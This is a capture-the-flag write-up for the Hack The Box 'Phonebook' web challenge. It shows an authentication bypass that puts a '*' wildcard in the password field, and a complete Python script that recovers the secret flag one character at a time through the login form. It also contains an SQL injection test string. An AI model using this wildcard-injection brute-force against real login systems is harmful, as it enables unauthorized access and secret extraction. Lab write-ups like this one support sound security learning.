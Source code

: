 +++
title = "Hack The Box - Phonebook"
tags = [
    "ctf"
]
date = "2022-08-15"
toc = true
+++

# Premise

Phonebook is a `Web` challenge from Hack The Box that presents us with a login page for a "phonebook" system. The goal here is to find a flag hidden somewhere, however it's considerably less obvious than it may seem.

# Exploration

When first navigating to the challenge URL you'l be greeted with a login prompt to access the phonebook. There don't appear to be any useful links here, however there's a note that the system now supports "workstation logins" and that post is signed by someone called "Reese".

When attempting to map the site with `ffuf`/`dirb`, or getting other information from tools like `nikto` we don't get much back. There's a `/search` endpoint that appears to be the phonebook in question, but all requests to it just return a `403` since we're not authenticated.

My assumption at this point is that there must be some sort of authentication bypass possible. Maybe SQLi?

# See Quell Eye

Like the skiddie I am, I first started poking at the login form using Burp's `Intruder` and some SQLi wordlists, but those didn't turn up anything of interest. Long story short, usual/simple auth bypasses like `foo' or 1=1; -- ` got nowhere for either username or password fields.

This lead to something a bit simpler in my mind... There's very likely still a database behind this, and the username _might_ be `Reese` since that's what's noted on the main page. While further injection attacks here didn't seem to get anywhere, a simple `*` did. Total lack of protection against this. The backend query, effectively, would look something like `SELECT username FROM User WHERE username = 'Reese' AND password = *;`.

# We've got our bypass

This is where this gets fun. 

Despite being authenticated, and getting into the phonebook, the search results are basically useless. There's no flag, a hint of one, or even some of the expected characters (e.g. `{` or `}`) that would imply the flag could be extrapolated. Frustrating.

After poking at search results, a lot, looking for other SQLi opportunities and getting nowhere, I thought maybe the password was our flag? `*` let us in, maybe we can use that wildcard to our advantage... Sure enough, we can log in with `Reese` / `H*`, or `HT*`, `HTB{*`, etc...

# Well we're not going to _guess_ the flag...

This is one of the first `Easy` rated challenges I've seen on HTB that really does need you to write a script to be able to effectively solve it. Fortunately, it just needs something simple. In short, we need to iterate through a character list until we get a positive response from the website's login, then move on to enumerate the next character. Good thing there's no rate limiting!

We can scope the character list to alphanum + `_` based on what we've seen with other HTB flags, so at least we have a narrower set than we could have otherwise. Beyond that, we can use `requests` and iterate to the next potential character whenever we don't get a response URL containing `Authentication%20failed`.

The final script would look something like this:

```
import requests
from string import digits, ascii_letters

# Define our target
url = "http://<challenge_IP>/login"

# Set our char range to test
# We can't use string.printable as certain chars will trigger an endless loop
chars = ascii_letters + digits + '_'

# Set the start of our flag string to build on
flag = 'HTB{'

count = 0

while True:

  # Break if we find the flag
  if count == len(chars):
    print("The flag is: " + flag + '}')
    break

  # Construct the password char by char
  password = flag + chars[count] + '*}'
  print('Testing ' + password)

  # Got our username from the main page of the challenge
  data = {'username' : 'Reese', 'password' : password}
  response = requests.post(url, data=data)

  if (response.url != url + "?message=Authentication%20failed"):
    # This means we got a hit since HTB{<text>*} was accepted
    flag += chars[count]
    # Reset counter so we start fresh for next char
    count = 0
  else:
    # Increment counter since tested char wasn't valid
    count += 1
```

As soon as we iterate through the entire list of characters once, and get no success, we know that we've found our flag since it must be the end of the string (or we don't have the right char list).

GG! Fun to see a challenge on the either end requiring a bit of a more novel approach to solve!
